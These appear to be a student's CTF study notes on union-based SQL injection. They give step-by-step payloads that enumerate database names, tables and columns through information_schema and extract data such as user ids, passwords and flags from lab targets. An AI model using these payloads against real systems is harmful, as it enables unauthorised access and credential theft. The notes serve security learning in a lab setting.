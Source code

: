 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on Javascript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where use data in database
2. The data display or not
- Display = Board
- Not display = loginm, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other table
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use select function again and the column number must be the same
ex) select pass from member union select id from member
ex) selct id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)
2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>
a. Find out the point of the SQL Injection = 1234' or '1' ='1
b. Find the number of columns = 1234' order by 4 #
c. Find the number of print column locations = 1234' union select 1,2,3,4 #
d. Find DB name = 1234' union select database(),2,3,4 #
e. Find Table name = 1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
f. Find column name = 1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
g. Find Data = 0000' union select id,pass,email,info from member where id = 'doldol' #

3. CTF questions<br>
a. SQL Injection 1
* Find out the point of the SQL Injection = ad%' and 1=1 #
* Find out the number of columns = ad%' order by 4 #
* Find out the number of print column locations = ad%' union select 1,2,3,4 #
* Find DB name = ad%' union select database(),2,3,4 #  => 	sqli_1
* Find table name = ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
* Find column name = ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
* Find data = ad%' union select flag, 2, 3, 4 from flag_table #

b. SQL Injection 
* The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
* The number of columns? = admin' order by 6 #
* location? = admin' union select 1,2,3,4,5,6 #   => only showing "6"
* database? = admin' union select 1,2,3,4,5,database() #    => sqli_5
* table? = admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     => flag_honey
* column name? = admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #   => flag
* data? = admin' union select 1,2,3,4,5,flag from flag_honey #    => 	kkkkkkk_Not Here!
* admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
  - Find hidden information (https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)
* admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
* admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
* admin' union select 1,2,3,4,5,group_concat(flag) from secret #

4. Web development
- mypage
